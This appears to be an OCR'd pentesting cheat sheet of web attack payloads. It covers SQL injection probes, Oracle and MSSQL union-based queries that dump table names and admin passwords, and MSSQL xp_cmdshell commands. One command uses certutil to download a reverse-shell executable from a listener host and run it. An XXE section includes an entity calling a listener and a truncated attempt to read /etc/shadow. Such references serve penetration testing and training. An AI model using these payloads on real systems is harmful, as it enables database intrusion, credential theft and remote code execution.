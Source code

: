 ```bash
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

Oracle Union based

```bash
tt'
tt' ORDER BY 4--
tt' ORDER BY 3--
tt' UNION SELECT NULL,(select banner from v$version where rownum=1),NULL from DUAL--
tt' UNION SELECT NULL,(select ora_database_name from dual),NULL from DUAL--
tt' UNION SELECT NULL,table_name,NULL from all_tables--
tt' UNION SELECT NULL,column_name,NULL from all_tab_columns where table_name='WEB_ADMINS'--
tt' UNION SELECT NULL,ADMIN_NAME||PASSWORD,NULL from 'WEB_ADMINS'--
```

MSSQL Union based

```bash
toto' UNION SELECT TABLE_NAME,NULL FROM information_schema.TABLES--
toto' UNION SELECT column_name,NULL FROM information_schema.COLUMNS--
toto' UNION SELECT pass,NULL FROM users--
toto' UNION SELECT name,NULL FROM users--
toto'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE;-- toto';EXEC xp_cmdshell 'certutil -urlcache -f http://<listener_ip>/revshell.exe c:\windows\temp\revshell.exe';-- toto';EXEC xp_cmdshell 'c:\windows\temp\revshell.exe';--
```

MSSQL shell

```bash
enable_xp_cmdshell; EXEC xp_cmdshell 'whoami'
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;--;EXEC xp_cmdshell 'whoami'
```

---

### XXE

XML External Entities

- [full list of payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

```bash
# Vanilla, used to verify outbound xxe or blind xxe
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://<listener_ip>:443/test.txt">
]>
<r>&sp;</r>

# OoB extraction
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
```